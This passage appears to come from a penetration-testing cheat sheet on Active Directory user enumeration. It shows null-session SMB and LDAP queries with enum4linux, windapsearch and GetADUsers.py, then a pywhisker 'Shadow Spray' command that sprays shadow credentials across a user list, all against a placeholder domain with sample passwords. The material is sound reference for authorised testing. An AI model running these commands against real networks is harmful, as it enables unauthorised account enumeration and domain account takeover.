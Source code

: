 ```
$ smbclient -N -U '' -L 192.168.1.11
```

- [enum4linux](https://github.com/CiscoCXSecurity/enum4linux) / [enum4linux-ng](https://github.com/cddmp/enum4linux-ng):

```
$ enum4linux -v -a 192.168.1.11 | tee ~/ws/log/enum4linux.out
```

- [nullinux](https://github.com/m8r0wn/nullinux):

```
$ nullinux.py 192.168.1.11
```



### Authenticated

Query LDAP for all domain user accounts via [GetADUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetADUsers.py):

```
$ GetADUsers.py MEGACORP/snovvcrash:'Passw0rd!' -all -dc-ip 192.168.1.11 | tee ~/ws/log/GetADUsers.out
```

Query LDAP for all domain user accounts via [windapsearch](https://github.com/ropnop/windapsearch):

```
$ python3 windapsearch.py --dc-ip 192.168.1.11 -d megacorp.local -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' -U | tee ~/ws/log/windapsearch.out
$ cat ~/ws/log/windapsearch.out | grep userPrincipalName | grep -v -e '{' -e '}' -e HealthMailbox | awk '{print $2}' | awk -F@ '{print $1}' | perl -nle 'print if m{^[[:ascii:]]+$}' > ~/ws/enum/all-users.txt
```

Query LDAP for all **active** domain user accounts via [go-windapsearch](https://github.com/ropnop/go-windapsearch):

```
$ windapsearch --dc 192.168.1.11 -d megacorp.local -u snovvcrash -p 'Passw0rd!' -m custom --filter '(&(objectCategory=person)(objectClass=user)(!(userAccountControl:1.2.840.113556.1.4.803:=2)))' --attrs sAMAccountName,mail,pwdLastSet,lastLogon | tee ~/ws/log/windapsearch.out
$ cat ~/ws/log/windapsearch.out | grep -i samaccountname | grep -v -e '{' -e '}' -e HealthMailbox -e '\$$' | awk '{print $2}' | perl -nle 'print if m{^[[:ascii:]]+$}' | sort -u > ~/ws/enum/all-users-active.txt
```




## Shadow Spray

- [https://github.com/Dec0ne/ShadowSpray](https://github.com/Dec0ne/ShadowSpray)

```
$ python3 pywhisker.py -d megacorp.local -u snovvcrash  -p 'Passw0rd!' --target-list users.txt --action spray -v
```
